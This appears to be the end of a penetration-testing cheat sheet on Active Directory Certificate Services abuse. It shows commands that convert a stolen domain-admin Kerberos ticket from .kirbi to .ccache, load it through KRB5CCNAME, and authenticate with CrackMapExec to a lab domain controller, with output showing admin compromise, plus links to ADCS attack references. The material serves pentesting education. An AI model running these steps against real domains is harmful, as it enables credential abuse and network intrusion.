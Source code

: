 ### Convert .kirbi to .ccache

Use [ticket_converter]({{< ref "ticket-converter" >}}).

```plain
python3 ticket_converter.py johnDomainAdmin.kirbi johnDomainAdmin.ccache
Converting kirbi => ccache
```

Make the `.ccache` available for Kerberos authentication.

```plain
export KRB5CCNAME=admin.ccache
```

### CrackMapExec

```plain
$ cme smb DC01PKI.offsec.nl -k          
SMB         DC01PKI.offsec.nl 445    DC01PKI         [*] Windows Server 2019 Standard 17763 x64 (name:DC01PKI) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         DC01PKI.offsec.nl 445    DC01PKI         [+] offsec.nl\johnDomainAdmin (Pwn3d!)
```

## URL List

* [Github.com - Certi](https://github.com/zer1t0/certi)
* [Github.com - Active Directory Attacks - Active Directory Certificate Services](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#active-directory-certificate-services)
* [Gist.github.com - Flangvik - PKI Abuse Cheatsheet](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)
* [Ppn.snovvcrash.rocks - ADCS Abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse)
